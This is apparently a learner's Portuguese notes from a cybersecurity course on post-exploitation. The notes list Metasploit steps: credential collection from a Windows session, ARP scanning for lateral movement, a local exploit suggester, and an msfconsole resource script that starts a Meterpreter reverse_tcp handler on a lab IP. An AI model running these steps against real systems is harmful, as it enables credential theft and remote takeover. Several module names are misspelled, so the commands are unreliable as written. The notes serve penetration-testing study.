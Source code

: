 >> Vamos coletar credenciais.

▶️use post/windowns/gather/credentials/credential_collector
▶️ show options   
▶️ set session 1
▶️ run
! Pode dar erro por conta da migração do PID

>>> Esse bloco aqui vai procurar ips na rede, ele demora, outras maquinas para expandir horizontalmente.
traz Up, Mac e systemas Op
▶️use post/windows/gather/arp_scaner
▶️set session 1
▶️ run
? ▶️ show options
? precisa de um Range ou CIDR

▶️ set RHOST 192.0.0.0/24

### Local exploit sugestion
▶️use post/mult/recon/loval_exploit_suggester
▶️set session 1
▶️ show options
▶️ set SHOWDESCRITION true
(( Essa parte aqui vai tentar achar outros exploits para usarmos))
▶️ run


## Vamos falar de Scripts

dentro do kali direto, vamos fazer um script para termos comandos de conexão
---------
Arquivo de comandos, Rc de Run comands, criando o arquivo meterpreter.rc
 
▶️ nano meterpreter.rc

Aqui abre nosso script vamos montar eles

▶️use exploit/multi/handlder
▶️ set payload windows/meterpreter/reverse_tcp
▶️set lhost 192.168.56.103
▶️set lport 444
▶️ exploit -z   ( Isso aqui joga para backgroud a sessão)
-----------

### Vamos rodar nosso script
▶️ msfconsole -r meterpreter.rc

Dentro

# Persistencia de sessão 

⭕ https://www.youtube.com/embed/ycl-EpSsi4c?controls=0&disablekb=1&enablejsapi=1&fs=0&iv_load_policy=3&modestbranding=1&showinfo=0&rel=0&html5=1&cc_load_policy=0&origin=https%3A%2F%2Fweb.dio.me&widgetid=1&forigin=https%3A%2F%2Fweb.dio.me%2Ftrack%2Fsantander-ciberseguranca-2025%2Fcourse%2Fpos-exploracao%2Flearning%2F6a4648b0-0d1b-4b66-9c91-24e8c5d85f81%3Fautoplay%3D1&aoriginsup=1&vf=6
